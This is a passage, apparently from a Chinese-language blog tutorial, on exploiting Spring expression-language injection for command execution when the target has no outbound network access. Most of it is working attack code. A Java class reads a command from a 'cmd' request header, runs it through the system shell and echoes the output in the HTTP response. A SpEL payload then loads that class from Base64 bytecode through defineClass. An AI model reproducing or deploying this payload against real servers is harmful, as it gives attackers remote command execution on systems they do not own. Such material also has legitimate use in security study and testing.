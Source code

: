 成功弹出计算器
### 回显
但是如果不出网，就要使用spring的回显
```java
import java.lang.reflect.Method;
import java.util.Scanner;

public class SpringEcho {
    static {
        try {
            Class c = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.RequestContextHolder");
            Method m = c.getMethod("getRequestAttributes");
            Object o = m.invoke(null);
            c = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.ServletRequestAttributes");
            m = c.getMethod("getResponse");
            Method m1 = c.getMethod("getRequest");
            Object resp = m.invoke(o);
            Object req = m1.invoke(o); // HttpServletRequest
            Method getWriter = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.ServletResponse").getDeclaredMethod("getWriter");
            Method getHeader = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.http.HttpServletRequest").getDeclaredMethod("getHeader",String.class);
            getHeader.setAccessible(true);
            getWriter.setAccessible(true);
            Object writer = getWriter.invoke(resp);
            String cmd = (String)getHeader.invoke(req, "cmd");
            String[] commands = new String[3];
            String charsetName = System.getProperty("os.name").toLowerCase().contains("window") ? "GBK":"UTF-8";
            if (System.getProperty("os.name").toUpperCase().contains("WIN")) {
                commands[0] = "cmd";
                commands[1] = "/c";
            } else {
                commands[0] = "/bin/sh";
                commands[1] = "-c";
            }
            commands[2] = cmd;
            writer.getClass().getDeclaredMethod("println", String.class).invoke(writer, new Scanner(Runtime.getRuntime().exec(commands).getInputStream(),charsetName).useDelimiter("\\A").next());
            writer.getClass().getDeclaredMethod("flush").invoke(writer);
            writer.getClass().getDeclaredMethod("close").invoke(writer);
        } catch (Exception e) {

        }

    }
}
```
使用defineClass方式加载字节码
```java
T(org.springframework.cglib.core.ReflectUtils).defineClass('SpringEcho',T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAA.....'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader()))
```
![](https://img-blog.csdnimg.cn/b3687a6461524b2185bf58fdf5af66b0.png)
